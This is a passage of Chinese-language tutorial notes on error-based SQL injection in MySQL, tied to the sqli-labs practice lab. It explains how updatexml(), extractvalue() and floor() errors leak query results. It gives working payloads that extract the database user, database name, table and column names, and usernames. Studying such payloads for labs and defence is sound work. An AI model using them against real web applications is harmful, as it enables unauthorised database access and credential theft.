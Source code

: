 ## **报错注入特点**

当存在注入但无正常回显时，可以使用报错注入，报错注入速度较快，两个重要函数：

concat（)、updatexml（），报错报的是xpath错误。XPath即为XML路径语言（XML Path Language），它是一种用来确定XML文档中某部分位置的语言。 

concat（）的作用是连接字符串，并促使updatexml（）报错，至少需要两个参数。updatexml（）的作用是报错，其中有三个参数。第二个参数 xml中的位置是可操作的地方，xml文档中查找字符位置是用 /xxx/xxx/xxx/…这种格式，如果我们写入其他格式，就会报错，并且会返回我们写入的非法格式内容，而这个非法的内容就是我们想要查询的内容。

## **报错注入一般流程**

**查询用户：**

拼接注入语句 concat(0x7c,select user(),0x7c)

updatexml(1,concat(0x7c,select user(),0x7c),1)

完整的注入语句:?id=1 and updatexml(1,concat(0x7c,(select user()),0x7c),1)

**查询库名：**

```sql
?id=1' and updatexml(1,concat(0x7c,(select database()),0x7c),1) %23
```
**查询表名：**
```sql
?id=1' and updatexml(1,concat(0x7c,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x7c),1) %23
```
**查询字段名：**
```sql
?id=1' and updatexml(1,concat(0x7c,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7c),1)%23
```
sql-labs第五关对应报错注入，注入语句如下：
```sql
?id=1' and updatexml(1,concat(0x7c,(select username from users limit 0,1),0x7c),1)%23
```
注入效果如下：
<img src="SQL注入/media/1634051626679108000220.png" alt="SQL注入/media/1634051626679108000220.png" style="zoom:50%;" align="left"/>
## **其他报错注入**

1. floor() 语句:and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);

floor函数和group by一起用时会发生冲突，导致报错。

2. ExtractValue() 和upadtexml()用法差不多 语句:and extractvalue(1, concat(0x5c, (select user())));
# SQL注入-盲注

## **布尔盲注**

### **特点**
